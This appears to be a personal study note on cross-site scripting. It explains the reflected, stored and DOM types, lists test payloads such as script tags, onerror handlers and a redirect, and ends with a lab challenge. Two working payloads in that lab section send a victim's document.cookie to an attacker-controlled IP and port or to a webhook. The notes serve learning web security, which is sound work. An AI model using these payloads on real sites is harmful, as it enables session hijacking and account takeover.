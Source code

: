 
Lets us execute Javascript in victims browser and often gives us control over the application for that user

Three main types of XSS

1) Reflected XSS : Script we are trying to inject comes from current HTTP request. We send a request, we get a response and that script is included in the response. So vulnerable script
   included in same request response

2) Stored XSS : Payload stored in database and retrieved later. Has much higher impact

3) DOM XSS : Client side has vulnerable Javascript that trusts vulnerable input instead of having the vulnerability server side

***Keep an eye on the network tab, if no request sent then client side injection, DOM XSS.
If request sent to the server, check if its stored in database or sent back in same request-response, depending on that it might be Stored XSS or Reflected XSS***

---

### Basic XSS Attack

User input being reflected on web page, so maybe Reflected XSS?

Give input and check network tab, nothings fills up network tab, so all things happening client side

 It is all happening on client side. In reflected XSS we get a response from server after entering an input which can be seen in the network tab

```js
<script>prompt(1)</script>
```


this becomes part of the page but we need something to trigger it

```js
<img src onerror="prompt(1)"/>
```


OR


```js
<iframe src onload="alert`1`"/>
```

to forward the user to different location

```js
<img src onerror="window.location.href='targetAddress'">
```

Example :

```js
<img src=x onerror="window.location.href='https://google.com'"> 
```


targetURL also inside quotes

---


### Stored XSS

Server Side Injection so some traffic can be seen in network tab(same for reflected XSS)

Spawn 2 containers

set cookie in one of the containers

to check if cookie is set 1)console.log(document.cookie) 2)Dev tool -> Storage ->Cookie

_**to check for XSS first try HTML injection coz that is likely to work**_

in the input field

```html
<h1>test</h1>
```

HTML injection works, now try for XSS

```js
<script>prompt(1)</script>
```

go in other container and we get prompt so it is stored

to get the cookie of other users

```js
<script>alert(document.cookie)</script>
```


***If http only flag set, JS cannot access the cookies***


---

### Lab Challenge

stored xss

escape \<p> tag first

```js
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

OR

```js
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

We want the cookie to be appended to the URL but as a paramter so, add /?
If we dont do this, cookie will be attached to URL which will change the URL
and we wont we able to capture the request with netcat or webhook

new Image() constructor create an image object it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

---
